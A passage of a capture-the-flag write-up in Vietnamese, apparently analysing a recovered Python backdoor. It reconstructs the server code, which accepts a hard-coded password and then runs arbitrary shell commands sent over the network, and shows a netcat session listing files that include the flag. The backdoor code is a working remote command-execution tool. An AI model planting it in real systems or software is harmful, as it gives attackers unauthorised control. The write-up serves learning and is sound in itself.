```
			command = client.recv(int.from_bytes(size, 'little'))
			if not command.startswith(b'command:'):
				client.close()
			else:
				command = command.replace(b'command:', b'')
				output = check_output(command, shell=True)
				client.send(output)
				client.close()
```

* Mình dựng lại server like this:
```
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 1234))
sock.listen(5)
while True:
    while True:
        client, addr = sock.accept()
        data = client.recv(32).decode().rstrip("\n")

        if(data != 's4v3_th3_w0rld'):
            client.sendall('Invalid')
            client.close()
        else:
            command = client.recv(1024)
            if not command.startswith(b'command:'):
                client.close()
            else:
                command = command.replace(b'command:', b'')
                output = check_output(command, shell=True)
                client.send(output)
                client.close()
```

* Ok, Netcat để check xem có flag không:  `s4v3_th3_w0rld` -> `command:ls`

```                                                      
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -vvv 0.0.0.0 1234                               
0.0.0.0: inverse host lookup failed: Unknown host
(UNKNOWN) [0.0.0.0] 1234 (?) open
s4v3_th3_w0rld
command:ls
bd
fixbd.py
flag.txt
pydata.dump
pydata.dump_extracted
pyinstxtractor
python-decompile3
 sent 26, rcvd 88
```
